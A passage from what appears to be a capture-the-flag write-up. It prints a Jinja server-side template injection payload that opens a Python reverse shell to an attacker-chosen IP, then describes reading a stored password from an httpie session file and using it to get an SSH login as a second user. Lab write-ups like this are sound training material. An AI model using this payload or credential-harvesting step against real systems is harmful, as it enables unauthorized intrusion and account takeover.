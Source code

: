 `ssti.txt` contents:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('python3 -c "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<your-kali-ip>\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")"').read() }}
```

The shell obtained revealed that the user **atlas** was compromised. However, it is important to mention that this was a restricted environment with access to very little functionality and only basic commands allowed.

![](screenshots/12-initial-shell.png)

Reading through the files at `/home/atlas`, it was identified that `.config/httpie/sessions/localhost_5000/admin.json` contained the password for another user: **silentobserver**.

![](screenshots/13-password-found.png)

The password was valid, and an SSH session was obtained.

![](screenshots/14-second-shell.png)
